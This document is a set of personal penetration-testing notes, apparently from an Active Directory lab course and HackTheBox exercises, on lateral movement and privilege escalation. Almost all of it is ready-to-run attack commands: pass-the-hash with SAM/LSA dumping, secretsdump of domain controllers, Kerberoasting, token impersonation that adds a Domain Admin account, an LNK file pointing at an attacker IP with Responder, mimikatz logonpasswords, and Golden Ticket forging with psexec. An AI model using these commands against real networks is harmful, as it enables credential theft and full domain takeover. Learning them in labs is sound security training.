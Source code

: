 
![[Pasted image 20241116130150.png]]

>[! bug] Moving Laterally & Vertically

```
- [ ] Pass Attacks
- [ ] Dumping and Cracking Hashes
- [ ] Kerberoasting Overview
- [ ] Token Impersonation
- [ ] LNK File Attacks
- [ ] GPP / cPassword Attacks
- [ ] Mimikatz
- [ ] Credential Dumping with Mimikatz
- [ ] Post-Compromise Attack Strategy
```



##  Pass Attacks

- [ ] crackmapexec

```
crackmapexec smb <IP_Address> -u <user_list> -d <domain_list> -p <password_list>
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -d MARVEL.local -p Password1
```



Hash
```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth --sam
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth --lsa
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth --shares
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth -M lsassy
```


```
cmedb
```




- [ ] secretsdump

```
secretsdump.py -no-pass -just-dc MULTIMASTER\$@10.10.10.179
```

```
secretsdump.py Cascade.local/ArkSvc:'w3lc0meFr31nd'@10.10.10.182 
```

```
secretsdump.py administrator@10.10.10.182 -hashes <full:hash>
```

```
secretsdump.py -ntds NTDS.dit -system system.hive LOCAL
```



- [ ] Dumping and Cracking Hashes

```
Wdigest is by default on Windows 2007 , 2008 , 2012.
```

```
llmr -> fcastle hash -> cracked -> sprayed the password -> found new login -> secretsdump those logins -> local admin hashes -> respray the network with local accounts

Lateral, Lateral, lateral all the way through until we find the vertical movement.
It could be admin password in wdigest or it could be an admin account that logins into your Domain controller.
```




- [ ] Kerberoasting

```
GetUserSPNs.py MARVEL.local/<usernname>:<password> -dc-ip <ip_address> -request
```

```
If it's never a logon in an account that could be a Honeypot account
```






- [ ] Token Impersonation

Delegate Token are for login's & RDP
Incognito

MSF-Console
![[Pasted image 20241112174826.png]]


```
load incognito
```
![[Pasted image 20241112175259.png]]

```
list_token -u
list_token -g
```

```
impersonate_token marvel\\fcastle
```

```
shell 
rev2self
getuid
```


```
net user /add hawkeye Password1@ /domain
net group "Domain Admins" hawkeye /ADD /DOMAIN
```





- [ ] LNK File Attacks


```
$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("C:\test.lnk")
$lnk.TargetPath = "\\<attacker_machine_IP>\@test.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Test"
$lnk.HotKey = "Ctrl+Alt+T"
$lnk.Save()
```


```
sudo responder -I eth0 -dwPv
```


Automated attack using CME/Net Exec:

```
netexec smb 192.168.138.137 -d marvel.local -u fcastle -p Password1 -M slinky -o NAME=test SERVER=192.168.138.149
```


Additional resources for forced authentication: [Red_Team_Offensive_Security](https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-.rtf)







- [ ] GPP / cPassword Attacks

GPP -> gpp-decrypt -> msf -> smb_enum_gpp

```
gpp-decrypt
```



- [ ] Mimikatz

https://github.com/gentilkiwi/mimikatz



- [ ] Credential Dumping with Mimikatz

```
privilege::
```

```
sekurlsa::logonpasswords
```

```
privilege::debug
```

```
sekurlsa::
```

```
sekurlsa::logonPasswords
```



- [ ] Post-Compromise Attack Strategy

```
Enumerate what is Bloodhound telling us, what are the quick winds there, who are our users, where are our domain admins, do we have access to any machines that are potentially sensitive.

Where does our account have access ?_?

Do we have access to file shares, can we maybe look up sensitive files, can we log in with our account to different locations.

Maybe we can check our email or we can look at service desk tickets, or log into different areas, maybe that leads to another form of compromise, or it leads to some other information that we can gather.
```

![[Pasted image 20241116130213.png]]

>[! bug] Keep In Mind

## Attack
Certificate attack

## Tool
Certipy


## Golden Ticket

```
python ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>
```

```
python3 ticketer.py -nthash 819af826bb148e603acb0f33d17632f8 -domain-sid S-1-5-21-3072663084-364016917-1341370565 -domain htb.local  Wedontexist
```

To get the domain SID
```
GET-ADDomain htb.local
```

```
cd /usr/share/doc/python3-impacket/examples
```

```
export KRB5CCNAME=Wedontexist.ccache 
```

```
psexec.py -debug -k -no-pass htb.local/Wedontexist@forest
```


## Mount

```
mount -t cifs -o 'username=audit2020,password=#00^BlackKnight' //10.10.10.192/forensic /mnt
```

```
cp lsass.zip ~root/Active_Directory/Blackfield 
```



